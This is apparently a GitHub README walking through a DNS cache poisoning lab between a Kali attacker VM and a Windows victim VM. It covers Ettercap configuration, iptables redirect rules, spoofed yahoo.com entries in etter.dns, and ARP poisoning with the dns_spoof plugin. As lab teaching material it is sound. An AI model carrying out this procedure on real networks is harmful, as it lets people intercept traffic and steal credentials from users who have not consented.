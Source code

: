 # dns-cache-poisoning

DNS cache poisoning is a vulnerability used by the attackers to replace the DNS response with forged DNS response that direct the request to attacker’s website. Usually this is used for pharming user are unknowing made to download malicious code or provide credentials which is then an accessed by attackers. The DNS server doesn’t verify the cache. Therefore, the forged response remains in the DNS until the TTL is expired. The DNS cache poisoning will not affect the real site corresponding to the IP address but the response from that DNS will lead user to rogue website


## REQUIREMENTS

1. virtual box
2. Two virtual machines 

      . we are using kali machine for attacking and windows machine as victim
      
3. Ettercap Application
4. Apache Server
5. IpTables

## How to install requirements

1. Installing virtual box

     . visit https://www.virtualbox.org/wiki/Downloads to download and install according to the operating system
        
        
2. Download and install kali machine 64 bit on virtual box using the link provided

     . https://kali.download/virtual-images/kali-2022.1/kali-linux-2022.1-virtualbox-amd64.ova
     
      follows instruction in the site to install kali machine on virtual box
      https://itsfoss.com/install-kali-linux-virtualbox/
      
      
3. Download and install windows 10 machine on virtual box

      follow instructions provided in the link to download and set up windows 10 machine on virtual box

      https://www.groovypost.com/howto/windows-10-install-virtualbox/
                    
4. Installing ettercap on kali
     use below command to install Ettercap application
     
        sudo apt-get install ettercap
        
5. installing apache server
     use following command to install apache server on kali
        
        sudo apt-get install apache2
                
5. install Iptable
     use following command to install iptables on kali
     
        sudo apt-get install iptables
       
# Getting Ready


### Configuring
      
##### Network settings

   Go to Network settings on both the machines and set the adapter to bridged adapter to get the two machines on same network with internet access
                 
##### Edit Ettercap configuration file
                 
             

We now need to edit the Ettercap configuration file since it is our application of choice for today.
Let's navigate to /etc/ettercap/etter.conf and open the file with a text editor like leafpad and edit the file. 
We can use following command for that.

        leafpad /etc/ettercap/etter.conf

So now we want to edit the uid and gid values at the top to make them say 0 so go ahead and do that.


       ############################################################################

        [privs]
        ec_uid = 0               # nobody is the default
        ec_gid = 0               # nobody is the default

        [mitm]
        arp_storm_delay = 10          # milliseconds
        arp_poison_smart = 0          # boolean

Now scroll down until you find the heading that says Linux and under that remove both the # signs for the sections below where it says "Linux".



        #---------------
        #     Linux 
        #---------------

           redir_command_on = "iptables -t nat -A PREROUTING -i %iface -p tcp -d %destination --dport %port -j REDIRECT --to-port %rport"
           redir_command_off = "iptables -t nat -D PREROUTING -i %iface -p tcp -d %destination --dport %port -j REDIRECT --to-port %rport"

        # pendant for IPv6 - Note that you need iptables v1.4.16 or newer to use IPv6 redirect
           redir6_command_on = "ip6tables -t nat -A PREROUTING -i %iface -p tcp -d %destination --dport %port -j REDIRECT --to-port %rport"
           redir6_command_off = "ip6tables -t nat -D PREROUTING -i %iface -p tcp -d %destination --dport %port -j REDIRECT --to-port %rport"

##### Edit Ettercap.dns file

  Edit the domain name to spoof and  edit the IP address to attackers IP address and save the file

        #                                                                          #
        # Sample hosts file for dns_spoof plugin                                   #
        #                                                                          #
        # the format is (for A query):                                             #
         *yahoo.com 		A	 172.20.10.4
         www.yahoo.com 		A	 172.20.10.4
         *.yahoo.com		A	 172.20.10.4	
        #
        #   *.foo.com          A 168.44.55.66 [optional TTL]                       #
        #      
        
##### Run ettercap application

   use folowing command to run Ettercap application from terminal
   
        ettercap -G
        
 1. choose primary interface and click accept on top right corner
 2. click on threen dots on top right to select options
        select Hosts --> Scan for Hosts     
        this will scan for the available devices connected to the network and save it to Hosts List
 3. click on threen dots on top right to select options
        select Hosts --> Hosts List
        it will list the hosts in network found on previous scanning step
 4. Select the victim's IP address and add it to target1 by clicking on "Add to Target1"
 5. select the DNS IP address and add it to target2 by clicking on "Add to Target2"
 6. now Click on Ettercap Menu and select Plugins --> Manage Plugins
        select dns_spoof. now right click and activate plugin
 7. click on man in the MITM Menu on top right corner near Ettercap Menu and select ARP Poisoning. click OK 


#### testing

All set now try accessng the website from victim's Machine.
it'll be redirected to the ip address specified in the etter.dns file

we can use the chk_poison to validate the poisoning
